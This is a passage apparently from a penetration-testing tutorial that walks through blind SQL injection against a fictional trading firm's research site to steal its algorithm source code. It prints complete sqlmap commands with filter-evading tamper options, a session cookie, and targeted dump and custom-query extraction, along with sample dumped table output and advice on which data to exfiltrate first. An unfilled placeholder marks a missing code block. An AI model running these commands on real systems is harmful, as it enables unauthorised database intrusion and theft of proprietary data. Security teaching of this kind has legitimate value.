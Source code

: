 The `source_code` column contains the actual algorithm implementation, but extracting longtext fields through blind injection could take hours or days. Plan your extraction strategy systematically:

1. **High-value, small data first**: Algorithm names and versions (fast extraction)
2. **Medium-value, medium data**: Configuration parameters and model coefficients
3. **High-value, large data**: Complete source code (time-intensive)
4. **Supporting data**: Research notes and performance metrics

Extract algorithm inventory first:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       -T algorithm_source_code \
       -C algorithm_name,version \
       --dump
```

After 20 minutes, this reveals:

```
[INFO] Database: trading_algorithms
Table: algorithm_source_code
[8 entries]
+------------------+---------+
| algorithm_name   | version |
+------------------+---------+
| ARGOS            | v1.2    |
| ARGOS            | v2.1    |
| ARGOS            | v3.1    |
| MARKET_PREDICTOR | v1.0    |
| RISK_CALCULATOR  | v2.3    |
| SENTIMENT_AI     | v1.5    |
| CORRELATION_DETECTOR | v1.1 |
| EXECUTION_ENGINE | v3.0    |
+------------------+---------+
```

ARGOS v3.1 is likely the current production version. Now extract its source code specifically:

### Targeted High-Value Data Extraction

Professional database exploitation focuses on extracting specific high-value information rather than dumping entire databases. This requires systematic querying for the exact data you need.

[PLACEHOLDER:CODE Name: Targeted SQLMap data extraction with custom queries. Purpose: Demonstrates how to use SQLMap's --sql-query option to extract specific high-value data efficiently rather than dumping entire tables. Shows professional data extraction techniques. Value: High.]

Extract the ARGOS v3.1 source code specifically:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       --sql-query="SELECT source_code FROM algorithm_source_code WHERE algorithm_name='ARGOS' AND version='v3.1'"
```
